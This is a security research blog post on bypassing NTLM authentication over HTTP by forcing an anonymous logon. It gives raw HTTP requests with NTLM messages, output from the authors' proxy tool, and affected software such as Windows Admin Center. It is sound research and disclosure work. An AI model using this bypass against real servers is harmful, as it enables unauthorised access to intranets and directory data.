 +++
title = "Bypassing NTLM auth over HTTP"
description = "Exploring the so called NT ANONYMOUS_LOGON user through HTTP endpoints"
tags = [
"howto",
"research",
"ntlm",
"web",
]
date = "2022-03-06 17:00:00"
categories = [
"Research",
"Exploration",
]
keywords = [
"ntlm",
"howto",
"research",
"anonymous",
]
menu = "main"
images = ["/ntlm_http/wma-auth1.png"]
+++


Exploring the so called NTLM ANONYMOUS_LOGON user through HTTP endpoints.
![Home](/ntlm_http/wma-auth1.png)
<!--more-->


# Some background

Through the years NTLM authentication has been used in various protocols as a convenient way
to authenticate on a Windows network :

- SMB usually for file sharing
- RDP 
- NNS an "authenticated" TCP stack for .NET applications
- HTTP


The NTLM authentication usually takes place in 3 steps :

```text
CLIENT Sends a negotiation message --------------------> SERVER   
CLIENT <-------------------- A challenge is given by the SERVER
CLIENT Sends a challenge response (creds) -------------> SERVER         
```

NTLM versions (1/2) and various negotiation flags will determine how the authentication is *"encrypted"* between
the server and the client.



Btw [http://davenport.sourceforge.net/ntlm.html]([http://davenport.sourceforge.net/ntlm.html]) is a must-read if you're getting started with this protocol !

# NTLM over HTTP

In this article, we'll turn our attention to its usage in the HTTP protocol.

If you ever accessed your company's intranet after logging in with your workstation without being asked for credentials, 
chances are NTLM was used in the background to authenticate to the remote webserver.

![Home](/ntlm_http/intra_example.png)

NTLM being a connection oriented protocol, HTTP keep-alive is used to keep the user authenticated through the same connection.


### Negotiation over HTTP
Let's look at how the protocol is actually working over the wire :

The client sends :
```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
```

The reply from the server indicates a `401 Unauthorized` but lets us know that NTLM authentication is available
through the `WWW-Authenticate` header :

```http request
HTTP/1.1 401 Unauthorized
Date: Sat, 04 Jun 2022 02:19:43 GMT
WWW-Authenticate: NTLM
Content-Length: 381
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
</body></html>
```

The client will then initiate a negotiation, over the same connection, using the `Authorization` header with the
`NTLM` prefix.

The base64 encoded string is a [Type 1 message](http://davenport.sourceforge.net/ntlm.html#theType1Message) letting the server know the client's capabilities :

```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
Authorization: NTLM TlRMTVNTUAABAAAAMYCI4AAAAAAoAAAAAAAAACgAAAAAAAAAAAAAAA==
```

### Server challenge over HTTP

The server still replies with a `401 Unauthorized` but this time provides a [Type 2 message](http://davenport.sourceforge.net/ntlm.html#theType2Message) in the `WWW-Authenticate`
header :

```http request
HTTP/1.1 401 Unauthorized
Date: Sat, 04 Jun 2022 02:19:43 GMT
Server: Apache
WWW-Authenticate: NTLM TlRMTVNTUAACAAAADAAMADgAAAA1gonilM550+1I+dYAAAAAAAAAAJIAkgBEAAAACgA5OAAAAA9EAE8ATQBBAEkATgACAAwARABPAE0AQQBJAE4AAQAMAEEAUABQAFMAMQA1AAQAGABkAG8AbQBhAGkAbgAuAGwAbwBjAGEAbAADACYAQQBQAFAAUwAxADUALgBkAG8AbQBhAGkAbgAuAGwAbwBjAGEAbAAFABgAZABvAG0AYQBpAG4ALgBsAG8AYwBhAGwABwAIAKFXn425d9gBAAAAAA==
Content-Length: 381
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
</body></html>
```

This header provides multiple information about the remote server, including it's operating system, DNS names, and which Domain it belongs to.

[Internal Information Disclosure using Hidden NTLM Authentication](https://medium.com/swlh/internal-information-disclosure-using-hidden-ntlm-authentication-18de17675666)
is a great read an often used by bug-hunters to find and disclose information about their target.

At this point, all HTTP clients gives you the choice to input a username and password, however, none of them are mentionning another
connection method.

Now let's think about this for a second :

- We know SMB can use NTLM
- We know SMB has an "Anonymous" feature

### Challenge response and auth over HTTP

Reading carefully [Microsoft documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b38c36ed-2804-4868-a9ff-8dd3182128e4) about NTLM 
reveals an interesting bit of information that's usually NOT implemented by NTLM clients :

![Home](/ntlm_http/MS_NOTE_ANON.png)

Using Golang as a framework, we were able to implement the missing feature in an already existing NTLM library :

![Home](/ntlm_http/godiff.png)

Kudos to [@Bodgit](https://github.com/bodgit) for creating such a clean library !

#### Creating a client supporting Anonymous authentication

While modifying a browser for this particular case could be interesting, we instead decided to write a [proxy](https://github.com/LeakIX/NTLMAnonProxy) handling
the anonymous authentication workflow over HTTP :

```shell
$ ./NTLMAnonProxy-linux-amd64 127.0.0.1 9999
2022/06/04 04:18:06 Starting NTLM HTTP proxy on 127.0.0.1:9999
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Intercepted request
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Proposing NTLM, forcing ANONYMOUS auth
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Received NTLM challenge
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Sent NTLM AUTH
```

#### Checking the results

We know continue our request process over the same connection, and instead of providing a username and password, we implement
the anonymous authentication.

This has the effect of requesting Windows to authenticate as `ANONYMOUS LOGON/NT AUTHORITY`.

```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
Authorization: NTLM TlRMTVNTUAADAAAAAQABAEgAAAAAAAAASQAAAAAAAABIAAAAAAAAAEgAAAAAAAAASAAAABAAEABJAAAANYKJ4AAAAAAAAAAAAEkIUrOKi10Sk8ki/EV6PpA=
```

#### The application 

What will happen next depends on the application using NTLM as authentication source.

If the application is configured to accept any login, `ANONYMOUS LOGON/NT AUTHORITY` will be considered as valid
authentication and various privileges can be granted to the end-user :

```http request
HTTP/1.1 200 OK
Date: Sat, 04 Jun 2022 02:19:43 GMT
X-UA-Compatible: IE=edge
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-Frame-Options: deny
Content-Length: 6901
Content-Type: text/html; charset=ISO-8859-1
```

And in this case we are indeed allowed access to the application (an intranet) as `ANONYMOUS LOGON/NT AUTHORITY`.


## Affected softwares

Various software are actually affected by this flaw.

One of the surprise we found was the **Windows Admin Center**, a piece of software used to administer Domains and
cluster of the web :

![Home](/ntlm_http/wma-auth1.png)

As it can be seen here, requests to Active Directory can be made, and all kinds of information can be retrieved through the API :

![Home](/ntlm_http/wma-auth2.png)

While we did notice some **Powershell endpoints** exposed, however Windows UAC acts as a last protection and requests a confirmation on
the local machine.

This flaw we rediscovered was in fact what we believe to be `CVE-2021-27066` has been fixed with a `403` page after
anonymous authentication.

Plenty of servers are still online with a older versions, and pen-testing your next LAN should definitely include this technique !

## Other protocols

Here we explored HTTP as we couldn't find any client allowing for such authentication and suspected it would yield results.

[NNS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nns/aaa2adb8-34a0-461c-941e-fca1319c5a50) is another protocol often used by .NET applications and was in fact the source of the last [Veeam critical RCE vulnerability](https://twitter.com/ptswarm/status/1503360681978077185).

We will continue exploring other protocols for the same mis-configuration !



